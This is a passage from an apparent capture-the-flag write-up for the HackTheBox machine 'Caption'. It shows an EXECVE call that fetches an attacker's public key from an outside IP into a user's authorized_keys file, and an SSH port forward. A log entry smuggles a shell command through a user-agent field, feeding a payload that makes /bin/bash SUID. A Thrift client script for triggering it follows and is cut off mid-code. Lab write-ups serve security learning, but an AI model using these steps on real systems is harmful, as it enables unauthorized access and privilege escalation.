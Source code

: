 `sudo python -m http.server 80`

`CALL EXECVE('curl -o /home/margo/.ssh/authorized_keys http://10.10.14.144/id_rsa.pub')`

# Privilege Esceletion

We go back to `GitBucket` again for the authorization upgrade, there is a port `80` that we left behind.

![](https://miro.medium.com/v2/resize:fit:700/0*aSH5BC1X9Lozf2kf)

![](https://miro.medium.com/v2/resize:fit:700/0*8Aomq4_gmkP6ufDs)

`ssh -i id_rsa -L 9090:127.0.0.1:9090 margo@caption.htb`

Create this file on `/tmp/malicious.log` on the remote machine:

`127.0.0.1 "user-agent":"'; /bin/bash /tmp/payload.sh #"`

Create this file on `/tmp/payload.sh` on the remote machine:

`chmod +s /bin/bash`

On your machine  
Create a file named `log_service.thrift` with the following content:
```
namespace go log_service    
    
service LogService {    
string ReadLogFile(1: string filePath)    
}
```
then

`pip3 install thrift`

`thrift -r --gen py log_service.thrift`

Then `cd gen-py` and create this file as `client.py`:
```
from thrift import Thrift    
from thrift.transport import TSocket    
from thrift.transport import TTransport    
from thrift.protocol import TBinaryProtocol    
from log_service import LogService # Import generated Thrift client code   
    
def main():    
# Set up a transport to the server   
transport = TSocket.TSocket('localhost', 9090)    
    
# Buffering for performance   
transport = TTransport.TBufferedTransport(transport)    
    
# Using a binary protocol   
protocol = TBinaryProtocol.TBinaryProtocol(transport)    
    
# Create a client to use the service   
client = LogService.Client(protocol)    
    
# Open the connection   
transport.open()    
    
try:    
# Specify the log file path to process   
log_file_path = "/tmp/malicious.log"    
``` 